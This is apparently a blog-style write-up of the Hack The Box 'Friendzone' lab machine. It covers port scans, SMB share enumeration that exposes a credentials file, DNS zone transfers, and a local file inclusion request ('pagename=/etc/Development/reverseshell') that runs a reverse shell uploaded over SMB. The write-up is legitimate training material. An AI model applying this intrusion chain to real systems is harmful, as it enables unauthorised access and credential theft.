```yaml
---
layout: post
title:  "HTB Friendzone Linux"
description : Great for practicing DNS zonestransfers, a lot of trial and error for getting user!
tags: HTB, DNS, ctf
---
```


# Recon
Nmap Scan
```ruby
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-07 11:49 EST
Nmap scan report for 10.10.10.123
Host is up (0.023s latency).
Not shown: 993 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
53/tcp open domain
80/tcp open http
139/tcp open netbios-ssn
443/tcp open https
445/tcp open microsoft-ds
```

```ruby
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-07 11:53 EST
Nmap scan report for 10.10.10.123
Host is up (0.025s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
53/tcp open domain ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| vulners:
| cpe:/a:apache:http_server:2.4.29:
|_ CVE-2019-0211 7.2 https://vulners.com/cve/CVE-2019-0211
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open ssl/http Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
| vulners:
| cpe:/a:apache:http_server:2.4.29:
|_ CVE-2019-0211 7.2 https://vulners.com/cve/CVE-2019-0211
445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
SMBMAP SCAN
```ruby
smbmap -H 10.10.10.123
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.123...
[+] IP: 10.10.10.123:445 Name: 10.10.10.123
Disk Permissions
---- -----------
print$ NO ACCESS
Files NO ACCESS
general READ ONLY
Development READ, WRITE
IPC$ NO ACCESS
```
SMBMAP recursive SCAN
```ruby
smbmap -H 10.10.10.123 -R --depth 5
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.123...
[+] IP: 10.10.10.123:445 Name: 10.10.10.123 
2/3
Disk Permissions
---- -----------
print$ NO ACCESS
Files NO ACCESS
general READ ONLY
.\
dr--r--r-- 0 Wed Jan 16 15:10:51 2019 .
dr--r--r-- 0 Wed Jan 23 16:51:02 2019 ..
-r--r--r-- 57 Tue Oct 9 19:52:42 2018 creds.txt
Development READ, WRITE
.\
IPC$ NO ACCESS
```
![](https://lh3.googleusercontent.com/O4pzmZNFGbiAAwAUWZERP_T7AWHf35fKkjQn50cLGT6XcgtAX0P1FQMYKh8MzUPzwEGcYCEc85kBLdX7LXa_2ipBrWvF1eTa8ldKjkXnO3u7yrYUicEd89F-H2HvC601gFtHz7cstwi4B9Wor51lTkzcJ6iJdMI7kZStMI9sCm9hxhXImJDCZvDG8smbmzwfCxKY5nWPGO5oGMo6SIfeTQxX5VITmPIh-DWwc5WTqODy9E3Kmtsecwy0y0g7fMrTbS2KPopSuxzYhzapHAtOphp-NYt0Q4RBz5vlFsXBmpkA80k00aAywHCXhfWa9_3sOHJj1xewgPvQRiHq9zJNNvlqZucImGRj_I5fdqNLVkQBxjEDaIoVC0kYfyQNeVwYdXAbMz-ELDzxACAlDacq7vFD8IfzZ9h8LVLe_NQzF5NxX-RmL1omGPEkXbf4HDe-WHoC-OrhUyslf-_vPDIEveYILwtDaLifjyIPNkXK4Gc5qvIRV6MOyix6TYXR24yGCGy0eadL2pFkrRIOhiG8r99M2Oyi1mdUnoJ3ypISHI4Avjj9IQINFQpVJTQyXxS6wSzep9CaS70N6Jc_P8k3E6qK-xVyKVFvFdbG3P8GCxOXS10K_wvVbrSCRZvB_dJpsQ54nCLRd8IxUpq_Pya1eXaptW1PpnPJRlrwKbyITZlFEVat2wWAbN8=w766-h511-no)


# Privilege Escalation

We use smbclient to donwload the creds.txt file to our machine
```ruby
smbclient //10.10.10.123/general
```
![](https://lh3.googleusercontent.com/bMtxkBFwC0LIqrhO-RBkBheIrcozv-KPVzuS4mUlDFfc-j6cNJsvh-PurxMM-MwoQw1juHkJW-gqKluIkJoCQfGiIftvZubl2kX9qaA8LOaXF4mViqelwuk3wYjQQDUd2egeqeXYIBsJXa184s4hwAu0yPjr9qlMlvF3ls0UD2zDV9FD6LXmmDIZeTGEkRkKLauNt5aFj3ItISHaRV28lexIoqe-GA0MkVXGj2VPDmz63taXCsbbN7Rp0KQWhdHc_MZ_vqRpMgJ0YJAXeezc8GAbnsS1y6YQST2c6bsRZ9qC6WwFNDLcKYCZQRqciqGwdpglTKNhqJJpymJHlX1m-iS7794LXhutmBzNYVC4OqyjHeYan1kwWZsgxP_yKbq4Qgk88Dv8o9gEsKELOC-n6LF6oEobY4AO68lMT5cYThJRG5F-7UlwAriN4oWbUjwqrIdW1-Z_u0STvnL1-H2EAUkgHHBS-O6YtxX6OcE1K85H2W3OQ4oLQVUKbsXDHbaIwO3Ni0pqbdQz1r6-vqWyHW57frpO0XHAPX71-SlEqb097Lpi_V8l_QPI178rpqVQw9FzUAwq9TcgpUYosR9ebsO-XIt2Hpx3pV2L3Zp0gSxNA-pUfY_mute5NS5-mi19HpucXBkLi8apuJg3vXpmq2KaF0JmrzH6IVLh5WlFR7VeZ5UcWCawfTI=w978-h145-no)

We obtain a passwd `admin:WORKWORKHhallelujah@#`
We add "friendzoneportal.red" and "friendzone.red" to our host file as the landing page
suggest to another domain and our nmap hints the same on port 445 and port 53.
![](https://lh3.googleusercontent.com/2wqZHZK2JEMlpv-RghvYZHgU0OhCYX_v1kOGeci8G8LZnZQgGchllI3T36LARwcSqeWXpFo4XkwU3KPmp7Sr7-LoZ_woax6Vug295ZEWr73GolAR3_KDziV-qAtvJJwLgGEUFJpWNJV9tdb4rAtvsdTtmg_Bn1hvwtYH5EAfF1ipkX4eD-bPs7aLIryz5x_jCwt8vp2dE5mBzV_5ARFZuDoHXQOYbtAFwzvHziYkjqevBaTZdBdVTGnG9AI7USj4JkY52ZzBdRQbQNDeYQ-lSM2XUNB7viKSUa1OE2DrXWljUxBkSXyCEzOOOMLW8SrBykkma7gBrZSfkjqBMNW-LRlfqVNjmDtT3CoMkYYsLvyxxlwze0KQDsAM7y9ReFAyiDCDBc5zAxRKV2kx6ZTbEJc3VNgyvDZapgRwivDkxnnS-zfHJ14cAVaJUCcbmCrXSEsvN1wjvSI1QuK9Vm3KkIOM3coBqY4AFHFnAvchaDuoXVb7XeNtUNPRf5Z-5XKGcDGSG0ZJkgcima8AH30ZePFaQN5r9pL-VW3I-0MkLj4-jHt9bN_zMvZD829AF3pHvdmPHhcMp5ASFBTwWj7ANaCtug1qQQ79U2tcHgKwoAd4n72TUffi3bj8OdZu1tFRCiuFpuofPhnynVriVaqQ2dvK5xXJfMiRrAbi13oyj1QdhOccVVHXhnY=w593-h147-no)

We locate and interesting directory "https://friendzone.red/js/js/" at first I though it
was some kind of passwd but after refreshing the page we notcied that the code change..likely
the page is running php and not static html code.
![](https://lh3.googleusercontent.com/JSNfWkKi7VCEkwJm_YdSTk73NCH8uX_l9tJbE97ZFAqM9NF5QrtBPLO3_Yz9AriA6HeRUGcRMv_SSTqBlsYBrjIexDXdmFWbf7TresFh1fes-xhfu5cPbCDOTONasCQQJRc8Wjxm_ReOz2kiMJORYZbtxsjGx3xFTIYz5e1oZk8hozI77v6azxRtmmTjOAVaeoEY6hDYT7Sq6GWX2ki4j9Rqu7ZwN_W8ZZMmfIYk-u3Jh2De4N0RmMsoQeRjiFmfH1Dm4EAzaszN5XcHI9uk8nisqammNMDxu5_DrW0F4xJ9TaYSFEbLwLpSYQAQ9CdP8kOYJ03MRGpmyp0TiyAjz7Rup16h3LqdsDKlPmuIGYnHZ3vmcTr5RwLqFPDgfKlP8NsYxfKQgSonw0YMvMYiXxu8Y0ulpMxL-kh8Z7-vO_X3unK2LhQX7pnrro4LTyP5Fqzhl2DxspyWyjRfAF_YWtyRvhgLeAqt_21pKB_SCXzD2Ch2tjvlrSxQ7Nv5HuL16mfPfGmFneTfikW37sGkdb0SFr4qy8x2tJ4KuHwEHYwBXyLfz1f6WBsIwgB-8arezfSjAAg-Gcp0184lVRLli7Odp7E8nkVE0heTTRZdluT5TBE-uGBL4rBeWWd6ayUg-TcbA5Twi-pSukcI7Tj8lehJUzJyp1a1t6BsoquyT3M3A8dmmHBQWHY=w795-h492-no)

![](https://lh3.googleusercontent.com/Dx_PGnfS9mKnoMH3HySMJ-QeRp21vDOoJE66Oyw5vSAg7S7E6n7JWWOy2Egc-sZhL7ExZqO9pOUtEH91-SbVfqidjLsq_L7hr4fk5cZAMVH9j4P43RwfU0EwW_JegTC7UcPRUWqMvz-TUc5s_Af_TOJPBkf306zc8hshV5iAAp-07ETC5dB8KXoQHJDdSBNSOeN12RBn3c9sYTH4VXt5U7r7FYBA7z80qoEsOPutx4ZlT8_LxG0UpUutBgkZwREq-vmizE5IFnoYhAuRnkzm-jSteD_XMq9oG_wdkcP2gwgOG64yidi5D9wxrePBBnA8JjbQOvUoC1Hn8Mlh0mD2dXYbROcRQvVl5FczcxybqWKar0JY4uCU94yIzhy-8J4_U8kB0Ra8yQfe_PGKOXKEcDDh7OV_GgTUjtD6cbA9zqQbAZ07nt1A7_TvSa9iCVbk5QeI1k6jK5V1qnaJU2JrltcJxzvTo0TtAeUkS7Gb1KvtVhwjpHAiG0b6xVVkCKzMULMul2TTARYyt8rxQVW059g7cI9DHlBauZyPEGmjmqUTtOgytQ6cO-qPXeJlXG16VbcrHLSUEOKFwz_qq8udxhwdGMqEBQpmbHnMbO7Ts3D7sRDWDLEutgFJImlWtrOausGXOrELe0nStmvAijPuGo9hBwVFCvhXBKfvgJyG0QVyT-HMXPL1TwU=w498-h159-no)

![](https://lh3.googleusercontent.com/CYD0J2WM4_0hJhRHBm2Tl3PJWHuWb6psP8Gbl5LA-1wmQbCPKjwE6dTsaijfgHaO9SqrMeRwL3Zo2UmB0yBlaNUgbfiYTaJLFMmJvZ072P3TvM6occ1btFvW_bbJOKIVjQV7r66RJeYWh5j_acEepszUSNuWU-BeuEmCZkMPgYdAhC5_HP_rxuusj-OzGP3AtOAmvgui18NPbyNJ1BLiM4AHRF7GYHofSWJZmtaH3xCU7Zu7GHSAvIZBuw6uUDaGnBkqG5UBooNYrgBiMsVZo60bdJIqidIItLCRQvAzp7zDXRFxrD29Zreo6g0prdbc8R3BAfNC4kJzFJ3t4r6gqo0K1amQTe4ufrAbkneTeM3hsfQI5w1Wg7yshinkOjtkGdj2PNDxeS23wS5lZ0FWTkr28ekPKj8KTOJB_sHpzHsd4xqZ6obtTH0VqDFAE0ZWZMA7ZKH_GlID3gmeswIsfKG06mZer-S4ACspZqR3iqL1J5ETB9635pdySNRPpD03Ywb3y-lS999TryvXcIKscRPnXUlylij4FGrkAJAyxQnzGbzZmdoeYWpnLhWa5NQMp4lHtO19S01uJOH4Gh_DON5xT4YUzRl877ch90UGqy-3xlFz7yCNsOojszzAIlhPVFoB9jbwW8dK4b3G_MJyBBCH5bp-n9OCCOVWGW5olNFPOvT0YfI5M6s=w456-h148-no)

![](https://lh3.googleusercontent.com/DY7B-xv8FO2DanRPbqsTOKspLGToMdlP_4iczl1YLkbYccfAKn1zorgAALGj_oFnoNfusv-EBONb5lTxRL3cTt2B1FvAbJftXERKnalUTjVHVXnLgps6f7EnZdGprhV4gkkXnELZN-y0a2eL_gWcCAT8W8u_wIwPki1a5NRR5A49geXnU_LqhXnCj2V32ysu50UUN9INmfi0gHWkRs_1KPVLvbxz1089hoCE4zTt-q8vrAh0xYqpolNnSBbQR6lp2Va18XL52bsztuQ92YSk6UQRzuGhI7l3OwegT6B3wIDOlATxJ5zjmkDn6QMszk99U8QNeggrXNLPtwlPsy3MjaFDoRPQDrSg9wcBrpq-3BxqzOV60RLDwQNikA4A4WovIfPJVeWfNlsGq1YNevpsiSPyTcNJkg5-hLxSAFNs5rKw3vSQAV5kMZfvNQwKuIjGWOlRfwEkvy_wY9I2rrv8lhpY2d2ZJ85mcxCMKZmtq1MUr2XsODSnnAhPJt4rHfVhXE0l-SLaShrnZhL5nY3SO3GrGmArFEdRRQ7ncGnJWQPL5zZy1NsrQ5kIbA8eAMKxIiXUJLsDN1cDzWarSk5FMQNRRA08z-lpZreRUcMkxgYNvVKXGnFA5A2VV6PASf6MzQMseQ7xEa6sV7_acw9PKuPceSBfDUo49owYGZ4wfbq95XqccNfwAJM=w475-h275-no)

At this point, our most likely path is the dns domain references..lets do a zone transfer
on our target machine

```ruby
dig axfr @10.10.10.123 friendzone.red
dig axfr @10.10.10.123 friendzoneportal.red
```
![](https://lh3.googleusercontent.com/a2K2GGmFwGFaF4Q8i5kQNBZTYSyaBnMl7n7YPh0ZhYUhjg381zuxQ0Lmz6aOmKWLWl2VWXLB9FkqRp_EMw4WT850p0RCyrbtDmziuEyhiVjTfmtXBANJg7xTtsf89TLhS_lKRGOV5N3TiiY5lXiaOQn41KhYmw9EGNheBv1Pt_zLPXwMBNGsdcw-JTu2TUbnBKkjjA4-na5oRMq_yvDcuDjW-5qihRYZAa0WoLPs8I3MyauI2EFkK3dlKWxy9HDLqOlDDavO2mQ7vkf7qzgQd2bdnYrUd8MltaxQeGLiYKXPOXJccky-NRc16iod9Yh_9S9jwsNvzNd0mnZAYfm0YSRtXELDlvl6rBWX9eJzy955W9KU6uRQyVLiEOeVKtEUea5bsc9g0BFp2lpKOPxya0tzso84y93ZfFX23--B1jcdWoher0Eo6a4f779pGzfs_TkbkTUFmhvvytarqdoOicrtVFyG2PsMEddKO6uhlao0NB-ZC2OttvUredcntdgNwhrnQSNNmQtttCU1nOWZ7g70Z3jqgp_sZemK_kpzDOv0yHBmgFsmSY0v_6T99-quQOW2pE3K-KHQlvLtBmy4UuxgAETtyznJf0BGp8pYTVDK2i3VQKM0dz9wSQAJRxawBRIBQKm8lMILe-yUUNpRb9OPlhlKFcuXObmazXtVSZZ8kczAkGTj-nc=w596-h291-no)

![](https://lh3.googleusercontent.com/q5hjO660mo6QoKMGMA4U97C_jHDYZgi-HG-gwrKTs9XKOJc7u5EZeU-RthEw-Js1Xg0B9Vdvj1HFSkXSxh7iGj0GXmV21OkSI6JLSaEVEte_4ldKr7kqIQIviq9dRvT3aoB8qZeVGao6qOnvuihOwuxzwd36NsfUK2aTifx7excVsiFYiNFfEk4QmihvMThS61jgh1yQupv1gNjBC35aLQuy4BmcpnqtzxWIO5Y2EW4rHO2fVtV1f9vhPn7xeVxQktr48tUy4v8pfBLIwm332DluYG4wDYbVCHxUrtzS7PiEYW0NXcEB6eqVSfhpIKDzHpx58J1W5wodSkzUv13SH2PnpuMXr9qS0W697M2nyRDtFcyWr1_XEEZ-fAYcAza8pcUJJtA36k8Inkn5QXft9dXgkkpgW_n4eFa7cqvP1gNJP7FjfLOtVEIKdZaXtP-qbq6iXxZy3s7UP4AAxRSoI_goNXTtb0Kj-g4zaToqaPpv85hWSyImwOky3zp2RB6e63H6bCl7O2rv-kDFcxOsKJQYEEueU0S3Z1e4T8LcuSpNEZVL4aKLkXm2CX0dpZ8XQRFU9zGFgnWFZ5qz95o2byMptO3aZTMPmbKHLR30dNSTN3N2e3lloj7bbJ_n8WcU2KcGfH6vz60QWS0l9lYqIqK8Qf5UCEHwUPfc0cYpJlXO3TH6SJ_rrBI=w614-h307-no)


We save the info to a dns.txt file and we clean the output
```ruby
cat host.txt | grep friendzone | grep IN | cut -f 1 -d "6" | uniq > dns.txt
friendzoneportal.red
admin.friendzoneportal.red
files.friendzoneportal.red
imports.friendzoneportal.red
vpn.friendzoneportal.red
friendzoneportal.red
friendzone.red
administrator1.friendzone.red
hr.friendzone.red
uploads.friendzone.red
friendzone.red
```
![](https://lh3.googleusercontent.com/ntODtJPQttlWy1Z9QFtJlIt8PmX-RcltuJlmjtbapccgLtBHYnJ-Lb99LQyhPu7NhGhjmQpVgjeT03au5SDuSnshAc0RtzwXEjIJjuxzatGl7a_no_5Sh22yTlC7WAJh-0sfLfr48Hb_PPi3yJ5F4arewtZYFrKa0AxmvqhbHIh9bV7JkBGjmqu3ORUWtB7ZRVacRRzcOxWFU1UHcwF2luygoVSEJ0tgFI16Qkc2e4xNJt5atXAnzbXiwNim4KROD2vnPVS2ctFnJcNHNZP-c-HfvN8nxl8YxM8jppHcjz6uJeXDbimfBK04QMB_w6sBHsQ7837UXQcjxTGtdf3RCjpWVvi04teynQB8OAAUiNFwbFICo0gCyLKc0O67YP0-bfN1tV1-UFCsfZaiw9Li4Tjz9Z0gfrjMTnJFd6PrvcIw3GD1Apfx0MRbONik4uQyrNsbAn9QZAwS-CZSlC1rZ2WgFbnz8ec2pR14iZxa-W_OLYHgQ0Jss7UEXGspgpqypScyFx1kCIdurXf3v1uYqTfpESmplwUOVlPYNqSa3xAfXQjw8tQCuv9UgdUVuoPMlg8J5UVDVy8BsTB4yAsyDoqTjvIdUEWXK8a8mkeQz2gzu-bvr48XHmFqKchNwRJsKCDAbaVHI3sd4_LZfUH15DBo5_Ysp3i9uP94FnJqT6W_Ue1S1HYVuOA=w930-h249-no)


The only useful address were `uploads.friendzone.red` and `administrator1.friendzone.red`
![](https://lh3.googleusercontent.com/F6Ak2L0sVHXGCNocLsTFzc0mPl7MiJs0NTapSKkA7UayPFt6McM7zIxD7ouVkNW4svl-j4USWJaAo3xKMNEMH5N1EyjiqvNt2-C1MeI7QjePDihQ029K9RrLT-xpGAQo5iKMaiHwGoYMQISBklaBq0k66ITodaWV6TFx8lGdtl3ZvrPUMYTSbHX8XHX5tMIyIVjZ4V4Wz8Eqj6khctnhomv_6BpKJYXG69myUKhn4PmCaeJlJMu3XGaQshTD0bT6kIZPtiX5HIUXJn1MlHLem10bux0qDWs0p9cpjUD-v8rvPthnLflKFG4tYLYNSha_p8othuh0BqUFHcmAi6WTLK1QU1OuMKbb0w4h_EEMKCwdRKeYn_C9a_oppTwKpKHDlZJ9SSwlvHUjSWFzaEBUd-LiURf5BoL5qeAyV0DLe62pj1e6XGuRk2WwT9upBWPpUE2O_uv3PhZCf4YIQ6h9QsOB7CHuTzDhHY1SbTyoTYj9nGNr9SX5P4PGtn-ywbDXEHWZHNSQQ8Sd28VvXPDYAF-Nz8OYQUxCfZkNQYi9rFsZqQd8KFzlypXqX6Axfh-nkflHAuzdenX9Lm_lyttIyqIMEvmrg2u-j_cReZlL8N2JsS_ANJNZUsnkkSfGZqj4ieO7KsECetgfZMugX6257VHpZMzW8gHYPW4giWyV3rxDMzl9XkToMow=w693-h288-no)

![](https://lh3.googleusercontent.com/NgCSoFXUf_sFkRsSqU5Jmct54TV7XwHTnHofsvKap5-V_OsLWfbWEr2Z7zhdaOHv-747UruwZOtlPGWG49GlsLni4L7cTe70lYlGjtuwgftnfYxVKLLaUOG83lBkZXd--sepk4UiYoDCO92vkxZFdbEibC8lck27Yb2ttN00Bn4bS70oKq9Jebz5JaHNx69M1aNXi3LQ3T60byPyF-1u4rBUV4PxoT4KY7VHT9eADwtxB7hpRcg4h1bQaDw1YtQo2w36zgKUCANziPFA1tFMdvb-a5OMMn-rmPaN0Fh2FqD9rUAtUSyB3cttuPnZE1dJRT4qN9ieFhOWSOi92II0UZ6a7sJ-5LmeeNVYuTpl2yHapjUM66UjzSCsSWuoq2ytjDklXuLbxpd_k9CvRpFAKqGw4onhbekRvNlV7FIIwQEKArMY4FXlc1hM1E4ZWgvoJjG2kiAVbb7qX6ha4En77d-tHYHURKiDLhM1IVKTtI7rMGbPJx4-LsbG2-R-Q1LYGL8ucWN2ZzJi_NG9b11Ml7XBrgQGlqs40_tf_QWI1bWMq5xxzmd0P_IorGsoZo-sn5ZgFiBySHy-BtUN_MRHHqJLXNk8zVInND0ZN-hFudqkojS-QlGmO3kOayxb76-ePY5Moo4kJEM_XFRVTurjF6FR1dW-WZqNTu-zOJQmTcVNeeBIK2HBugM=w1017-h88-no)

![](https://lh3.googleusercontent.com/upaY8k8YjXHugTqRmIqUVpdxUnkryt9Tx9FFX1-oZDTz808yN9yU1ydwBFCaiG0YbDSoZfgjZ6-SLvdTSgBWZwMbFjonV32_lxAMOKE_ftkgg0vxjpMt3DW8co6FuvWbLaCXpNONoizzKtMzjbbHC2D_v9klOSW9ob9LRDVNUeKLS73p7Ls2sodbEA5LvayngvmzLzk6jHhjWzRCg_153Ozmfd-kVfLTR93t7jOZa2itwbG5srYDvU3VB2dZF4r8Etz7IczTfyVRW2gpGEj7C1doby2TksYVk1qAVoGb7uR_PqAAKvDbmoRRRC6hyg_UcBeiP76cgTVCrvBLzmW4Tpw95m7BD7yHVV-osWGEE2MIWV4lk_aIWK7LMiK7i_hFcrjMDMZAtxVkJfevuuTHvW-aYdbayr335W7t6iSxlPiWZxLm-xIuKdBH32w-gsgJZl3cKUPmWiU7BHbLQdEHRiOGs1FKNu5OixFHUJOrTauBU0VtU5Lbbw467Selz5kpeKHOlZqL32xh7DZjhfo46qzq0eRFkbDqweFsszaK4Wz1CD_1AcQnf6W7AXEeYmoY8YiswSOoUXJ7P9O2NUMGekWJn0aKhKiN5Xwy7uYo1wWT_riePGQLFFpifFWgO9-TbjTa29uAideh3phM0SCjKxcxGuqACDCwdZ8bCxTSAZxS5FgFglSBdWY=w599-h391-no)

We upload a reverse shell on "uploads" but we dont get to see where IF the file was uploaded.
we only get a timestamp

![](https://lh3.googleusercontent.com/Bd42yVRsSnm7qyuccfk0EQvmWzmDKLFdwvrsdugktEt5WORggv4BE7tkGHrNcfurdmQjRrTslblhavhtWm9_l8OVjU_bM0PpNdPmppIpb5aef2Z_5kLphcJEws3CK-yBy91vXvvH078_BwyzMNfcjZunhURU1LzXza1BOkyO_XIErWJFFg3QTchPP-1ylNjpWj4jxK_p2wU7spsuav2e76ksR4maQXZPi1fVVJLYBQ-niZ6_w4q4aEyrRrDUy8syX1ogRhMH0lYZ8cHDCxWuct7VcVpnG561Ov0tgCJtseFzkSrbdva91yI0H-BcaEK7jJV8fFwbEB0QRxUrD_n-WNTjatGEWXd8atdhyZc9ZsrTBPN7OmpEoycAV-11kYFXGJqThAnlSGseVU9caenEyPxI2QBUbO2rdXoeXYsmBS2SD_ezG7I0UAwJEsonq9oEJDmzC4QuWR2Zfs9-miuOLZp77u3dV2zNSLt5RZn_smIg2e4ORX4ReBeGv3v4mNNIeGORWUT6cNHMTWY1dsyApI7Xq8MkxmtJBFkOWdxRd2McrVFYwT8GgL4JTwbLahN6c9piptsMSmd-7lYQzf5dx31EBdvk-S6KNS6qyJUsr6Nx4f4QVg14cH4M9-5Z7FFVeIYS5O0IwVAImXsQ9b6OoRgRiJSkAyPAfT7nrnQJIV2XDvyAqQdmuF0=w764-h382-no)

the "admin" portal give us a hint about how to search for image files
"image_id=a.jpg&pagename=timestamp" but not luck there

![](https://lh3.googleusercontent.com/Qnf1IwMDJyy_qHSbKZZrZcgpGMFc8jhcqCEkqTkXXbCDQvepoI6hLwhAFK39LHPV2_heabNXRk95uFMgnYmOizTuLu0bC1-VBoStRK5q5GCQLY0ssSsN7jhnEg2EJ3-MlOupBCkQnujpLe8D--DNeYOYBhbWXfI63fW9EYFZmsvRsjnaGv92RrxLQezJappJr6kHfqyKbA25h7D8Fy_oNNJHE0gADJQkcRROMva9ffaUhQa9Bgj4anw_myYaQ24QGXw6-nTIWXYOp7d99dgHTX83MuiXCQeDxqynNoneE6M4RqrFFAt9nHNuijTybh0uYBZnaT31UWA2kI9fW8SQatEdCaKLvcnTsWLq8z9t1ujBzP5He7stVmf3qnnBKIRdd2dI_XdhaOylWePUcWJz2wNKMIDw0nShkrPfxtH5R3iTAu8k7UJM_7-3HvKbTBkpQnlbBhMH28aAAMAc6O6p8G8fei6fKC4jVulR8t1W3qYFGpLD0VXVO3B_m2G5y7yhWA_4gktKEyA1HAPVD9p6e2uREPS9z0A-WwLPoimPkqBmUtnwJIUHq_SlJ1QrNFRVaJTT_YAVZ8nEzxwQlcZIpd-oFg32Hsx2Anz3yy6bvumGrB7MuorWlrkfnrXZD1S5cvOGWp7V7Z8jF5c2rVRRuch0Afy3cv_asehhoFoom94CRIPKRgH25l4=w581-h108-no)

After poking for awhile I realized that we can upload our shell using smbclient on the
directory "/etc/Development/
![](https://lh3.googleusercontent.com/LloZdpfxIdoJmRU3RXvMMIsJkBjpx6g2P_DsxiGYjLhL_MPmcEvymauREaEXWWBoDLYfB-qPi29TcKY7xn0a0AbJnqBLh5QlMzu-D_iH53RV9uMVHOyzuG-olw7Sptac4Ra654IV0kKrsDFd-OLZ4KkDCOB6kLf9MRVE84p5vqY_DTkWewls9f9jPvOtNCgdKbitA4Lbyq412H9EPULNeKbJgVDKy1AzA_G1xDfjKR17gLIZlvZPsiYfZmzipFRPN7F8EOeYlZX2-5KT0qkvkEljoL44tSq4RP74Gp3RFd71pUx0n7g02tmijaQxOjuyE5DW5AFZMQ-cIvfb_b-iWYTraPCwcSvUoKURxQBi1t2em8zMoAdYS5MbxNjiyvD-k7aBT1KxqtWfK8KjQ2iJrdtJUL2K9jviPU59WUTeahq3oAG-RLUpic9ElpEO0JEmitSpB0aVO0_7Fmz8aIkcDHDrTzgHarYMbcR5riRMhyuPCEYAHTXr3Ewg8Eu8qXx595UDnSXLoJlJdTpA8DOPLIsn0CTE3HeEeMPSqfitrhA7kMuN-UnqNTL5u1vALymrHinvSQu4VzC-uydvBpYK4Fwt1pqjVp9Pl6QzWB-6AxqiySB3U_shH9qbzqBTtqHUJpHOHdQIodU13oS9wrix2bfkne2XtkXUaMOhl1r62U1NgD4W2x6CANk=w831-h324-no)

and call our shell from "image_id=a.jpg&pagename=/etc/Development/reverseshell"
![](https://lh3.googleusercontent.com/o2v5Gj8aGBfyTZrpzInp9DKqc_0GUOVB_Bh-kHPfzgTgRJRMt_UQwP9-lX8rNT6fmtCPMSMylV7j9zAaWA_mOXAK_69oEx9IpiHdYoTjhM6GLYrRJ13C7ANUwWHNnk554gB3wQzvuq7XOSDE4q9yA6lQ66l1PAW2mxTTL-mMUrSJZv08n4EeLzUDsQ2t6pqTpzirwMX57xahlM6mTiMUnFcy4NcQaDnYNnoFxGRiqhGrTDnqdzcMnVEXeg3OtceyYzVKRNVu_V_Ut4j_NhG9ymAt0ELgmKmcL646rh8kk7NToAL-q5bUHqyQ9A5lPdVyVS4vlZ5CYa3z40HAAUgliNrtuogQEw3ZG3RoleEcPFQIlDq0mg0B8AOa44aUvxyIMk7xdlbkA59T9nGL59kppdZhKm5l9bppVWvHhngGJqEFVON06oSIuFesX95rj4HVpxqE5-APFVp6zq1TnB9d2kHspjMSNFIpZal1mKuTniVa321PZaWrNE1dPs5QqOvywlDNb9wHMJCmO5dx_qqtIhEH0dQT_YdN3aPd9W1Z-5XcrIpq3p8xEkkwBLQDp2dcolcUMHpJhjbTtLaNhrd6bIsE68qCoSKQc3zIhUJWehlDIMztlWiCw9nIhmhhPwlS230evRIxzXsNGriAnCn_EImTEdpvHZ9ClZUhVphDNx9X0S8jLU10GfE=w429-h59-no)

